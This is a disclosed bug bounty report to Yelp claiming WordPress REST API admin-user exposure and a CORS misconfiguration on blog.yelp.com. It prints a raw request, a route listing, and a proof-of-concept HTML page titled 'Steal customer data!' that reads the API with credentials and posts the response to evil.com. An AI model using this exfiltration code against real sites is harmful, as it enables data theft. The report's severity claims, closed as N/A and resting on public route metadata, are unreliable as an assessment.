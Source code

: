 # Multiple Vulnerabilities in (*.blog.yelp.com) - Leakage user admin Sensitive Exposure

## Report Details
- **Report ID**: 779656
- **URL**: https://hackerone.com/reports/779656
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-01-21T19:04:03.458Z
- **Disclosed**: 2020-01-29T19:42:39.088Z

## Reporter
- **Username**: sourceflow
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: yelp

## Vulnerability Information
**Hi!** Team @yelp, We Found Multiple Vulnerabilities in you websites , Username Admin Login Sensitive Exposure
Refferals Hackerone [#753725]

Platform(s) Affected: [website]
*. https://blog.yelp.com/wp-json/ ``user-admin sensitive exposure``
*. https://blog.yelp.com/wp-login.php ``Admin-Page disclousure``

##Steps To Reproduce:
1) Open URL Vulnerable : https://blog.yelp.com/wp-json/
**Request**
```
GET /wp-json/ HTTP/1.1
Host: blog.yelp.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://127.0.0.1:8080
DNT: 1
Connection: close
Cookie: __cfduid=dc46e8e6b98de504f3f044d1b9b3b8a191579632970
Upgrade-Insecure-Requests: 1
```
**Vulnerable Details**
Add Parameter ``Origin`` in Request Header
``Origin`` http://127.0.0.1:8080
**Exploit Cross Origin Resource Sharing Misconfiguration**
```javascript
<!DOCTYPE html>
<html>
<body>
<center>
<h3>Steal customer data!</h3>
<html>
<body>
<button type='button' onclick='cors()'>Exploit</button>
<p id='demo'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
var a = this.responseText; // Sensitive data from blog.yelp.com about user account
document.getElementById("demo").innerHTML = a;
xhttp.open("POST", "http://evil.com", true);// Sending that data to Attacker's website
xhttp.withCredentials = true;
console.log(a);
xhttp.send("data="+a);
}
};
xhttp.open("GET", "https://blog.yelp.com/wp-json/", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</body>
</html>
```
2) save file as ``.html`` , and open in your browser
3) **Boom** Sensitive has been Exposure

**Additional information**
```javascript
	
name	"Yelp"
description	"Official Blog"
url	"https://blog.yelp.com"
home	"https://blog.yelp.com"
gmt_offset	-8
timezone_string	"America/Los_Angeles"
namespaces	[…]
authentication	[]
routes	
/	{…}
/oembed/1.0	{…}
/oembed/1.0/embed	{…}
/oembed/1.0/proxy	{…}
//wpe_sign_on_plugin/v1	{…}
/wpe_sign_on_plugin/v1/login	{…}
/redirection/v1	{…}
/redirection/v1/redirect	{…}
/redirection/v1/redirect/(?P<id>[\d]+)	{…}
/redirection/v1/bulk/redirect/(?P<bulk>delete|enable|disable|reset)	{…}
/redirection/v1/group	{…}
/redirection/v1/group/(?P<id>[\d]+)	{…}
/redirection/v1/bulk/group/(?P<bulk>delete|enable|disable)	{…}
/redirection/v1/log	{…}
/redirection/v1/bulk/log/(?P<bulk>delete)	{…}
/redirection/v1/404	{…}
/redirection/v1/bulk/404/(?P<bulk>delete)	{…}
/redirection/v1/setting	{…}
/redirection/v1/plugin	{…}
/redirection/v1/plugin/delete	{…}
/redirection/v1/plugin/test	{…}
/redirection/v1/plugin/post	{…}
/redirection/v1/plugin/database	{…}
/redirection/v1/import/file/(?P<group_id>\d+)	{…}
/redirection/v1/import/plugin	{…}
/redirection/v1/import/plugin/(?P<plugin>.*?)	{…}
/redirection/v1/export/(?P<module>1|2|3|all)/(?P<format>csv|apache|nginx|json)	{…}
/yoast/v1	{…}
/yoast/v1/configurator	{…}
/yoast/v1/reindex_posts	{…}
/yoast/v1/ryte	{…}
/yoast/v1/indexables/(?P<object_type>\w+)/(?P<object_id>\d+)	{…}
/yoast/v1/file_size	{…}
/yoast/v1/statistics	{…}
/yoast/v1/myyoast	{…}
/yoast/v1/myyoast/connect	{…}
/wp-rest-api-log	{…}
/wp-rest-api-log/entries	{…}
/wp-rest-api-log/entry/(?P<id>[\d]+)	{…}
/wp-rest-api-log/entry	{…}
/wp-rest-api-log/routes	{…}
/wp-rest-api-log/entry/(?P<id>[\d]+)/(?P<rr>request)/(?P<property>body_params)/download	{…}
/wp-rest-api-log/entry/(?P<id>[\d]+)/(?P<rr>request)/(?P<property>query_params)/download	{…}
/wp-rest-api-log/entry/(?P<id>[\d]+)/(?P<rr>request)/(?P<property>body)/download	{…}
/wp-rest-api-log/entry/(?P<id>[\d]+)/(?P<rr>request)/(?P<property>headers)/download	{…}
/wp-rest-api-log/entry/(?P<id>[\d]+)/(?P<rr>response)/(?P<property>body)/download	{…}
/wp-rest-api-log/entry/(?P<id>[\d]+)/(?P<rr>response)/(?P<property>headers)/download	{…}
/metaslider/v1	{…}
/metaslider/v1/slideshow/all	{…}
/metaslider/v1/slideshow/preview	{…}
/metaslider/v1/slideshow/save	{…}
/metaslider/v1/slideshow/delete	{…}
/metaslider/v1/slideshow/duplicate	{…}
/metaslider/v1/themes/all	{…}
/metaslider/v1/themes/custom	{…}
/metaslider/v1/themes/set	{…}
/metaslider/v1/import/images	{…}
/metaslider/v1/tour/status	{…}
/metaslider/v1/settings/save-single	{…}
/metaslider/v1/settings/save-global	{…}
/regenerate-thumbnails/v1	{…}
/regenerate-thumbnails/v1/regenerate/(?P<id>[\d]+)	{…}
/regenerate-thumbnails/v1/attachmentinfo/(?P<id>[\d]+)	{…}
/regenerate-thumbnails/v1/featuredimages	{…}
/wp/v2	{…}
/wp/v2/posts	{…}
/wp/v2/posts/(?P<id>[\d]+)	{…}
/wp/v2/posts/(?P<parent>[\d]+)/revisions	{…}
/wp/v2/posts/(?P<parent>[\d]+)/revisions/(?P<id>[\d]+)	{…}
/wp/v2/posts/(?P<id>[\d]+)/autosaves	{…}
/wp/v2/posts/(?P<parent>[\d]+)/autosaves/(?P<id>[\d]+)	{…}
/wp/v2/pages	{…}
/wp/v2/pages/(?P<id>[\d]+)	{…}
/wp/v2/pages/(?P<parent>[\d]+)/revisions	{…}
/wp/v2/pages/(?P<parent>[\d]+)/revisions/(?P<id>[\d]+)	{…}
/wp/v2/pages/(?P<id>[\d]+)/autosaves	{…}
/wp/v2/pages/(?P<parent>[\d]+)/autosaves/(?P<id>[\d]+)	{…}
/wp/v2/media	{…}
/wp/v2/media/(?P<id>[\d]+)	{…}
/wp/v2/blocks	{…}
/wp/v2/blocks/(?P<id>[\d]+)	{…}
/wp/v2/blocks/(?P<id>[\d]+)/autosaves	{…}
/wp/v2/blocks/(?P<parent>[\d]+)/autosaves/(?P<id>[\d]+)	{…}
/wp/v2/wp-rest-api-log	{…}
/wp/v2/wp-rest-api-log/(?P<id>[\d]+)	{…}
/wp/v2/wp-rest-api-log/(?P<id>[\d]+)/autosaves	{…}
/wp/v2/wp-rest-api-log/(?P<parent>[\d]+)/autosaves/(?P<id>[\d]+)	{…}
/wp/v2/types	{…}
/wp/v2/types/(?P<type>[\w-]+)	{…}
/wp/v2/statuses	{…}
/wp/v2/statuses/(?P<status>[\w-]+)	{…}
/wp/v2/taxonomies	{…}
/wp/v2/taxonomies/(?P<taxonomy>[\w-]+)	{…}
/wp/v2/categories	{…}
/wp/v2/categories/(?P<id>[\d]+)	{…}
/wp/v2/tags	{…}
/wp/v2/tags/(?P<id>[\d]+)	{…}
/wp/v2/users	{…}
/wp/v2/users/(?P<id>[\d]+)	{…}
/wp/v2/users/me	{…}
/wp/v2/comments	{…}
/wp/v2/comments/(?P<id>[\d]+)	{…}
/wp/v2/search	{…}
/wp/v2/block-renderer/(?P<name>core/block)	{…}
/wp/v2/block-renderer/(?P<name>core/latest-comments)	{…}
/wp/v2/block-renderer/(?P<name>core/archives)	{…}
/wp/v2/block-renderer/(?P<name>core/calendar)	{…}
/wp/v2/block-renderer/(?P<name>core/categories)	{…}
/wp/v2/block-renderer/(?P<name>core/latest-posts)	{…}
/wp/v2/block-renderer/(?P<name>core/rss)	{…}
/wp/v2/block-renderer/(?P<name>core/search)	{…}
/wp/v2/block-renderer/(?P<name>core/shortcode)	{…}
/wp/v2/block-renderer/(?P<name>core/tag-cloud)	{…}
/wp/v2/settings	{…}
/wp/v2/themes	{…}
_links	{…}
```
##POC Screenshots/Videos:
  * F691740
  * F691742
  * F691741

## Impact

1. This website using Wordpress , so developer forget to disable the link that can view information of admin user. By access to this link, attacker can get all username and other information of user admin: Wordpress user admin sensitive-exposure
2. Cross Origin Resource Sharing Misconfiguration

## Attachments
- ScreenshotsYelpPOC1.png
- ScreenshotsYelpPOC.png
- ScreenshotsYelpPOC2.png
